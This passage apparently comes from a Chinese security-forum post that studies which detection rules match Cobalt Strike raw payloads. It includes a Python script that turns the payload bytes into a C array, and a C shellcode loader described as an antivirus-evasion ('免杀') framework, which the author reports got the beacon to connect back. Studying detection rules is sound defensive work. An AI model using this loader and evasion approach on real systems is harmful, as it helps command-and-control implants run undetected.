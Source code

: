 由于匹配的规则集中不止一个规则，所以我修改了一下匹配代码，加多了打印规则部分：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-7837d7b6cd236017466060d044fe3173106afb9c.png)

匹配结果如下：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-0f13310c4b650fca1e93e9354158cbb9daabc6e7.png)

从结果集中可以发现虽然匹配了 6 行，但实际上只匹配了 2 个规则集，并且 process 和 thread 类型在规则集中没有差别。32 位匹配了 2 个规则集，64 位匹配了 1 个规则集。

Raw 类型分析：
---------

### payload64\_process.bin

同样的我们只以 64 位为例，exit 类型不影响规则匹配，所以我随便挑了 process。首先是字节码转 C 风格 16 进制数组，由于内容太多了，原先的脚本无法在控制台上全部输出，所以改成如下的写入到文件的形式：

```python
import os
f = open("D:\Cobaltstrike_payload\payload64_process.txt","w")
file_bytes = list()
for a in open("D:\Cobaltstrike_payload\payload64_process.bin","rb").read():
    file_bytes.append(hex(a).replace("0x","\\x"))
f.write(''.join(i for i in file_bytes))
f.close()
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-f1281483855a07eb9574f1ba71168c22b0f52200.png)

同样的把其插入到 64 位免杀框架中生成 exe 文件，运行后成功上线：

```c
#include<stdio.h>
#include<windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
unsigned char shellcode[]= 这里填shellcode;
void main(){
     LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
     memcpy(Memory, shellcode, sizeof(shellcode));
    ((void(*)())Memory)();
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-74a7b917ee7e71187cc6fdc3bdb02dd342141fef.png)

#### 转换思路——局部分析：

由于程序体积太大，短时间内无法完全分析，所以我们先来看 Google 规则中给出的部分，并在定位代码之后根据局部上下文和经验判断是否较为特殊：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-683ad3b917125d0066baf1e3f3e2b028eb229b06.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-c46ac9a070d954b08d294ce080663fe3b65ab114.png)
